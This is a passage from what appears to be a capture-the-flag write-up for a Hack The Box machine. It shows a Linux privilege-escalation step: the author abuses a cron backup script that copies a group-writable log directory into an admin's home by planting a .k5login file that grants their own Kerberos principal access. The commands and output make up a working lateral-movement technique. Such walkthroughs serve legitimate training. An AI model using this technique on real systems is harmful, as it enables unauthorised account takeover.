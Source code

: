 ```
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name  command to be executed
* * * * * admin /usr/local/bin/log_backup.sh

```
So let's have a looksey:
```sh 
[j.nakazawa@srv01 ~]$ cat /usr/local/bin/log_backup.sh
#!/bin/bash

/usr/bin/rsync -avz --no-perms --no-owner --no-group /var/log/squid/ /home/admin/
cd /home/admin
/usr/bin/tar czf squid_logs.tar.gz.`/usr/bin/date +%F-%H%M%S` access.log cache.log
/usr/bin/rm -f access.log cache.log

```
The script seems to be using rsync to copy all the files from /var/log/squid/ to /home/admin/ and then create an archive using tar.

Let's see if we have any permissions to **/var/log/squid**:
```
[j.nakazawa@srv01 tmp]$ ls -ld /var/log/squid/
drwx-wx---. 2 admin squid 41 Jul 30 17:30 /var/log/squid/

```
We can see you need to be the admin user or you need to be part of the squid group. 
Use the following command to check if we are part of the squid group:
```
[j.nakazawa@srv01 tmp]$ id
uid=1000(j.nakazawa) gid=1000(j.nakazawa) groups=1000(j.nakazawa),23(squid),100(users) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

```
Would you look at that... it seems we are!


### Grant permissions with kerberos .k5login file

So what can we do now? Well, with ssh Kerberos it is actually possible to grant someone else access to your account via Kerberos.
To grant other users access we need to create a **.k5login** file. In this file you can list different Kerberos principals, in our case j.nakazawa. 
This will basically give the principals added to that list permission to authenticate with their
tickets as the user in the **.k5login** file.

In this scenario the **log_backup.sh** script copies files to the /home/admin/ directory. What we can do is
create a **k5login** file that contains the **j.nakazawa** user and add it to the admin's home directory.


Let's write a simple **.k5login** file and store it in the **/var/log/squid** directory:
```
[j.nakazawa@srv01 /]$ echo "j.nakazawa@REALCORP.HTB" > /var/log/squid/.k5login
[j.nakazawa@srv01 /]$ cd /var/log/squid/
[j.nakazawa@srv01 squid]$ cat .k5login
j.nakazawa@REALCORP.HTB

```
